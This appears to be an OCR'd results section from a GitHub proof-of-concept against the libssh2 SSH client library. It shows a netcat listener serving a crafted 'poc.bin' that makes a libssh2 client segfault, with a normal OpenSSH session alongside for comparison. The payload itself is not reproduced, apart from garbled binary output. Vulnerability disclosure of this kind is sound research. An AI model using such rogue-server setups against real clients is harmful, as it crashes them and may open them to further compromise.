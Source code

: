 # Libssh2
###  Results
* Netcat connection
    - Server:
    ```shell script
    $ nc -nvlp 8022 < poc.bin
    Listening on [0.0.0.0] (family 0, port 8022)
    Connection from 172.168.1.68 45514 received!
    ```
	- Client::
    ```shell script
    $ nc 172.168.1.83 8022 -v -w 3
    Connection to 172.168.1.83 8022 port [tcp/*] succeeded!
	SSH-2.0-libssh2_1.9.0_DEV
	�AAAAAAAAAAAAAAAAA
    ```


* Normal ssh connection
    - Server:
    ```shell script
    $ sudo /usr/sbin/sshd -D -d -p 8022
    debug1: sshd version OpenSSH_7.6, OpenSSL 1.0.2n  7 Dec 2017
    debug1: private host key #0: ssh-rsa HA256:Zt6cfRjk1eX1v8HhmLpTssaIlN6cER9Kh6Oq0aZaL24
    ( ... )
    debug1: Set /proc/self/oom_score_adj from 0 to -1000
    debug1: Bind to port 8022 on 0.0.0.0.
    Server listening on 0.0.0.0 port 8022.
    debug1: Bind to port 8022 on ::.
    Server listening on :: port 8022.
    (...)
	Connection from 172.168.1.68 port 46060 on 172.168.1.83 port 8022
    (...)
    Accepted password for guest from 172.168.1.68 port 46060 ssh2
    (...)
	Starting session: shell on pts/1 for guest from 172.168.1.68 port 46060 id 0
	(...)
    ```
    - Client::
    ```shell script
	$ ssh guest@172.168.1.83 -p 8022
	guest@172.168.1.83's password: 
	Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-1022-raspi2 aarch64)
	(...)
	```
	
	
	
* SSH connection with client using Libssh2 and defective server
    - Server:
    ```shell script
    $ nc -nvlp 8022 < poc.bin
    Listening on 0.0.0.0 22
    Connection received on 172.168.1.68 46304
    SSH-2.0-libssh2_1.8.2
    �
	�w��p���ah���+qo~diffie-hellman-group-exchange-sha256,diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1ssh-rsa,ssh-dss�aes128-ctr,aes192-ctr,aes256-ctr,aes256-cbc,rijndael-cbc@lysator.liu.se,aes192-cbc,aes128-cbc,blowfish-cbc,arcfour128,arcfour,cast128-cbc,3des-cbc�aes128-ctr,aes192-ctr,aes256-ctr,aes256-cbc,rijndael-cbc@lysator.liu.se,aes192-cbc,aes128-cbc,blowfish-cbc,arcfour128,arcfour,cast128-cbc,3des-cbcqhmac-sha2-256,hmac-sha2-512,hmac-sha1,hmac-sha1-96,hmac-md5,hmac-md5-96,hmac-ripemd160,hmac-ripemd160@openssh.comqhmac-sha2-256,hmac-sha2-512,hmac-sha1,hmac-sha1-96,hmac-md5,hmac-md5-96,hmac-ripemd160,hmac-ripemd160@openssh.comnonenoneUA�԰it�
    ```
    - Client::
    ```shell script
	$ ssh2 172.168.1.83 guest guest
	Segmentation fault (core dumped)
	```

